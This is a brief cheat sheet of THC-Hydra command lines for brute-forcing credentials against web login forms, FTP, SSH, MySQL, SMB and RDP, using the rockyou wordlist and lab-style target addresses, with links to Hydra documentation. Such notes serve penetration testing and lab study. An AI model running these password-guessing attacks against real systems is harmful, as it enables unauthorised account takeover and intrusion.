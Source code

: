 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt [IP Address] ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://[IP_Address]

## SSH

$ hydra -l <username> -P full path to passlist.txt IP Address Target -t 4 ssh

$ hydra -L full path to usernamelist.txt -P full path to passlist.txt> ssh://IP_Address:22

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt IP Address Target -t 4 ssh

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt IP Address Target -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt IP Address Target -t 4 smb

## RDP

$ hydra -l username -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L full/path_to_usernamelist.txt -P full/path_to_passlist.txt -t 4 -W 3 rdp://IP_Address:3389/

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
